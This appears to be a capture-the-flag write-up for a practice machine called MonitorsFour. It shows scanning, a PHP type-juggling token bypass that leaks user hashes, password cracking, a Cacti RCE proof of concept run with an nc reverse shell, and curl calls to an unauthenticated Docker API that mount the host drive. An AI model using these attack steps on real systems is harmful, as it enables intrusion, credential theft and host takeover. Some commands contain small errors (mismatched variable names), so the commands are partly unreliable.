


Starting with a nmap scan:

```sh
$ sudo nmap -sV -sC -Pn -oN res.nmap 10.129.2.152                                 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-23 11:08 EDT
Nmap scan report for 10.129.2.152
Host is up (0.060s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
|_http-title: Did not follow redirect to http://monitorsfour.htb/
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

From this result we can infer:
- Nginx web server serving on port 80 
- WinRM enabled 

Add to `/etc/hosts`:

```
10.129.2.152   monitorsfour.htb
```

Use gobuster to fuzz for hidden paths:

```sh
$ gobuster dir -u http://monitorsfour.htb -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://monitorsfour.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.htaccess            (Status: 403) [Size: 146]
.hta                 (Status: 403) [Size: 146]
.htpasswd            (Status: 403) [Size: 146]
contact              (Status: 200) [Size: 367]
controllers          (Status: 301) [Size: 162] [--> http://monitorsfour.htb/controllers/]
forgot-password      (Status: 200) [Size: 3099]
login                (Status: 200) [Size: 4340]
static               (Status: 301) [Size: 162] [--> http://monitorsfour.htb/static/]
user                 (Status: 200) [Size: 35]
views                (Status: 301) [Size: 162] [--> http://monitorsfour.htb/views/]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```

The `/user` expect a `token` parameter base on the HTTP response:

```
GET /user?token=1 HTTP/1.1
Host: monitorsfour.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Cookie: PHPSESSID=de303fae66bd67c1a446c9cce660f52a

---

HTTP/1.1 200 OK
Server: nginx
Date: Sat, 23 May 2026 15:47:59 GMT
Content-Type: application/json
Connection: keep-alive
X-Powered-By: PHP/8.3.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 36

{"error":"Invalid or missing token"}
```

Try fuzzing this token value with a list of numbers:

```sh
$ ffuf -w <(seq 0 9) -u http://monitorsfour.htb/user?token=FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsfour.htb/user?token=FUZZ
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

3                       [Status: 200, Size: 36, Words: 4, Lines: 1, Duration: 87ms]
4                       [Status: 200, Size: 36, Words: 4, Lines: 1, Duration: 95ms]
2                       [Status: 200, Size: 36, Words: 4, Lines: 1, Duration: 103ms]
5                       [Status: 200, Size: 36, Words: 4, Lines: 1, Duration: 103ms]
0                       [Status: 200, Size: 1113, Words: 10, Lines: 1, Duration: 103ms]
1                       [Status: 200, Size: 36, Words: 4, Lines: 1, Duration: 135ms]
7                       [Status: 200, Size: 36, Words: 4, Lines: 1, Duration: 135ms]
8                       [Status: 200, Size: 36, Words: 4, Lines: 1, Duration: 135ms]
6                       [Status: 200, Size: 36, Words: 4, Lines: 1, Duration: 154ms]
9                       [Status: 200, Size: 36, Words: 4, Lines: 1, Duration: 154ms]
:: Progress: [10/10] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

With `token=0`, the server responds with all its users:

```
HTTP/1.1 200 OK
Server: nginx
Date: Sat, 23 May 2026 15:51:39 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/8.3.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1113

[{"id":2,"username":"admin","email":"admin@monitorsfour.htb","password":"56b32eb43e6f15395f6c46c1c9e1cd36","role":"super user","token":"8024b78f83f102da4f","name":"Marcus Higgins","position":"System Administrator","dob":"1978-04-26","start_date":"2021-01-12","salary":"320800.00"},{"id":5,"username":"mwatson","email":"mwatson@monitorsfour.htb","password":"69196959c16b26ef00b77d82cf6eb169","role":"user","token":"0e543210987654321","name":"Michael Watson","position":"Website Administrator","dob":"1985-02-15","start_date":"2021-05-11","salary":"75000.00"},{"id":6,"username":"janderson","email":"janderson@monitorsfour.htb","password":"2a22dcf99190c322d974c8df5ba3256b","role":"user","token":"0e999999999999999","name":"Jennifer Anderson","position":"Network Engineer","dob":"1990-07-16","start_date":"2021-06-20","salary":"68000.00"},{"id":7,"username":"dthompson","email":"dthompson@monitorsfour.htb","password":"8d4a7e7fd08555133e056d9aacb1e519","role":"user","token":"0e111111111111111","name":"David Thompson","position":"Database Manager","dob":"1982-11-23","start_date":"2022-09-15","salary":"83000.00"}]
```

From the result, we notice that this might be the typical `PHP type juggling` vulnerability, where the code uses `==` check rather than the `===` type check. This would result in PHP converting tokens into numbers, non-numeric strings evaluate to `0`.

Save the hashes we obtained in `hashes.txt` and attempt to use crack those using hashcat with MD5 mode:

```sh
$ hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

<SNIP>
56b32eb43e6f15395f6c46c1c9e1cd36:wonderful1 
<SNIP>
```

This hash belongs to the admin user, store this credential in `creds.txt` for later use:

```creds.txt
admin:wonderful1
```

The website contains nothing intresting, just this Docker version that might yield an idea for leveraging the CVE-2025-9074 for privilege escalation:



Try to look for other websites hosting on the target machine, use `ffuf` for brute-forcing subdomains and found `cacti.monitorsfour.htb`:

```sh
$ ffuf -w /usr/share/seclists/Discovery/DNSsubdomains-top1million-5000.txt -u http://10.129.2.152 -H "Host: FUZZ.monitorsfour.htb" -fs 138

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.2.152
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.monitorsfour.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 138
________________________________________________

cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 93ms]
```



This Cacti Version 1.2.28 is vulnerable to `CVE-2025-24367 - Cacti Authenticated Graph Template RCE`. Look up [nomi-sec repo](https://github.com/nomi-sec/PoC-in-GitHub/blob/master/2025/CVE-2025-24367.json), we found this [PoC](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC) for the CVE. Clone it locally and run the exploit:

```sh
$ nc -nlvp 4444

$ python exploit.py -u marcus -p wonderful1 -i 10.10.16.102 -l 4444 -url http://cacti.monitorsfour.htb
[+] Cacti Instance Found!
[+] Serving HTTP on port 80
[+] Login Successful!
[+] Got graph ID: 226
[i] Created PHP filename: LBoqV.php
[+] Got payload: /bash
[i] Created PHP filename: LHwmP.php
[+] Hit timeout, looks good for shell, check your listener!
[+] Stopped HTTP server on port 80
```

At our listener, we successfully catch the shell, navigate to marcus home directory and read the flag:

```sh
www-data@821fbd6a43fa:~/html/cacti$ whoami
whoami
www-data
www-data@821fbd6a43fa:~/html/cacti$ uname -a
uname -a
Linux 821fbd6a43fa 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64 GNU/Linux
www-data@821fbd6a43fa:~/html/cacti$ cd /home/marcus
www-data@821fbd6a43fa:/home/marcus$ cat user.txt
cat user.txt
384d5ae97056bfd866a2409c647c9657
```

Now to the Docker CVE. Basically this CVE allows the attacker to call the Docker API endpoint to create a container that mounts the host's drive into the container, which then we can access via that newly created container. Steps to reproduce:

- Connect to http://192.168.65.7:2375/ without authentication
- Create and start a privileged container
- Mount the host `C:` drive into that container (`/run/desktop/mnt/host/c/`)
- Gain full access on the Windows host via Docker API

```sh
www-data@821fbd6a43fa:~/html/cacti$ curl -s -X POST http://192.168.65.7:2375/containers/create -H "Content-Type: application/json" -d '{"Image":"alpine", "HostConfig":{"Binds": ["/run/desktop/mnt/host/c/:/mnt"]}}' > c.json
www-data@821fbd6a43fa:~/html/cacti$ id=$(cut -d'"' -f4 c.json)
www-data@821fbd6a43fa:~/html/cacti$ echo $id
8ec3ff30688153f0a6f30b140e75af52e839e12a20ff02abc268121a06b3f81f
www-data@821fbd6a43fa:~/html/cacti$ curl -s -X POST http://192.168.65.7:2375/containers/$id/start
www-data@821fbd6a43fa:~/html/cacti$ curl -s http://192.168.65.7:2375/containers/$cid/archive?path=/mnt/users/administrator/desktop/ -O desktop.tar
www-data@821fbd6a43fa:~/html/cacti$ tar -xvf desktop.tar
www-data@821fbd6a43fa:~/html/cacti$ cat desktop/root.txt
e93cddf22bab571aa7e83ab7c8cb271c
```